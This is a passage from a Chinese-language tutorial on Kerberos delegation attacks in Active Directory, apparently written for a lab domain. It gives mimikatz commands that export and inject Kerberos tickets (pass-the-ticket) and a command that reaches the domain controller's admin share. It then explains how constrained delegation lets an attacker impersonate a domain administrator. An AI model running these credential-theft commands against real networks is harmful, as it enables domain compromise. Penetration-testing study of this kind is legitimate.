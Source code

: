 ```shell
mimikatz sekurlsa::tickets /export
```

![截图](b2bc45a01f9b9fb8cdc537ce6bcdfc56.png)

（如果，没有建议多运行几次，或者直接重启机器）

3、导入票据到内存中：

```shell
shell klist purge # 清除票据
mimikatz kerberos::ptt [0;90998]-2-0-60a00000-Administrator@krbtgt-GOD.ORG.kirbi # 导入票据
```

![截图](79c922ce74ce68e5dc48a6ccc0cac31b.png)

4、连接通讯域控：

```shell
shell dir \\owa2010cn-god\c$
```

![截图](41c625cd97c7cc69bc0081d8742cdce7.png)

## 0x02 约束性委派

### 原理

由于非约束委派的不安全性，微软在windows server 2003中引入了约束委派，对Kerberos协议进行了拓展，引入了SService for User to Self **(S4U2Self)**和 Service for User to Proxy **(S4U2proxy)**。

### 利用场景

如果攻击者控制了服务A的账号，并且服务A配置了到域控的**CIFS服务的约束性委派**。 则攻击者可以先使用**S4u2seflt**申请域管用户（administrator）访问A服务的ST1，然后使用**S4u2Proxy**以administrator身份访问域控的CIFS服务，即相当于控制了域控。

### 复现配置

1. 机器设置仅信任此计算机指定服务-cifs
   
   先添加OWA2010CN-GOD计算机：
   
   ![截图](67ada74add0fdde33904b27482ba1bea.png)
   
   再添加crifs服务：
   
   ![截图](fbf81642fefa5f347ebc71bfd13b0863.png)
2. 用户设置仅信任此计算机指定服务-cifs
   
   这里设置与1一致
   
   ![截图](6751bdc5620a6a3e06dc343dc2ca1536.png)

### 攻击过程
